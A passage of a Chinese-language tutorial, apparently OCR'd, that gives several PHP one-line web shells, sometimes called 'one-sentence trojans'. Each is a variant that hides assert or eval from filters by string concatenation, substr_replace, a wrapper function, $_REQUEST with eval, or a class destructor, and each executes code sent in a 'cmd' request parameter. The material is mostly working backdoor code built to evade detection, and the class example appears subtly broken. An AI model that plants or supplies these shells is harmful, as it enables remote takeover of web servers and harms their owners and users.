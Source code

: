 ```php
<?php
	$a=substr_replace("assexx","rt",4);
	@$a($_POST['cmd']);
?>
```

<font style="color:rgb(77, 77, 77);">在这个马中，是将第四位和第五位，也就是</font>`<font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">xx</font>`<font style="color:rgb(77, 77, 77);">替换成</font>`<font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">rt</font>`<font style="color:rgb(77, 77, 77);">，最终拼接成为</font>`<font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">assert</font>`

<font style="color:rgb(77, 77, 77);">除了substr_replace()，还有一种拼接方法</font>

```php
<?php
	$a="a"."s";
	$b="s"."e"."rt";
	$c=$a.$b;
	$c($_POST['cmd']);
?>
```

##### 三、函数
可以利用函数来构造一句话木马

```php
<?php
	function shyshy($a){
	assert($a);
	}
	@shyshy($_POST['cmd']);
?>
```

先是构造了shyshy()这一函数 然后调用这一函数 变成一句话木马

##### 四、request请求
适用于过滤了get和post请求的的条件

```php
<?php
	$a=$_REQUEST['cmd'];
	$b="\n";
	eval($b.=$a);
?>
```

##### 五、类
可以构造一个类，利用魔术方法来拼接

```php
<?php
	class shyshy{
		public $a='';
		function __destruct(){
			assert("this->$a");
			}
		}
		$b=new shyshy();
		$b->a=$_POST['cmd'];
?>
```
